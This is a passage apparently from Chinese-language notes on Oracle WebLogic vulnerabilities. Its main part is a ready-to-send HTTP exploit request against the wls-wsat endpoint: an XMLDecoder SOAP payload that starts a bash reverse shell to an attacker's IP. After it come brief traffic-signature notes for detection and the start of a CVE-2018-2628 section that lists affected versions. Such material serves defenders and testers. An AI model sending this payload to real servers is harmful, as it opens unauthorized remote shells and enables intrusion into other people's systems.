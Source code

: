 ### EXP

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
  <soapenv:Header> 
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
      <java version="1.4.0" class="java.beans.XMLDecoder"> 
        <void class="java.lang.ProcessBuilder"> 
          <array class="java.lang.String" length="3"> 
            <void index="0"> 
              <string>/bin/bash</string> 
            </void> 
            <void index="1"> 
              <string>-c</string> 
            </void> 
            <void index="2"> 
              <string>bash -i &gt;&amp; /dev/tcp/接收shell的ip/21 0&gt;&amp;1</string> 
            </void> 
          </array> 
          <void method="start"/> 
        </void> 
      </java> 
    </work:WorkContext> 
  </soapenv:Header> 
  <soapenv:Body/> 
</soapenv:Envelope>

```

### 流量特征

危险的 XML 负载，如 `java.beans.XMLDecoder`、`java.lang.ProcessBuilder`、执行的命令等

## T3 反序列化漏洞（CVE-2018-2628）

### 版本

- 10.3.6.0
- 12.1.3.0
- 12.2.1.2
- 12.2.1.3
